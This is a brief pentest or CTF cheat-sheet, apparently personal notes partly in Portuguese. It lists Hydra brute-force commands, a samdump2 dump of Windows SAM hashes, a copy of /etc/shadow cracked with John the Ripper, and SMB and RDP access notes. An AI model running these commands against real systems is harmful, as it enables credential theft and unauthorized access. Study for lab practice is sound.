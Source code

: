 ### Hydra username and password discovery

With two lists:

```
hydra -L <list_users>.txt -P <passwords>.txt <targetIP> <protocol>
```

With a username and a list:

```
hydra -l <username> -P <passwds>.txt <tgtIP> <protocol>
```

### Getting hashes from SAM

```
samdump2 -o hashes SYSTEM SAM
```

### Password cracking with John the Riper

```
cp /etc/shadow pass.txt &
john pass.txt
```

/etc/services -> well-known ports
SAMBA -> important (SMB) -> ARQUIVOS -> PORTA 445

```
smb://<IP>
```

```
rdesktop-vrdp <IP>
```

3389 (RDP) -> acesso à tela de login

cronjob
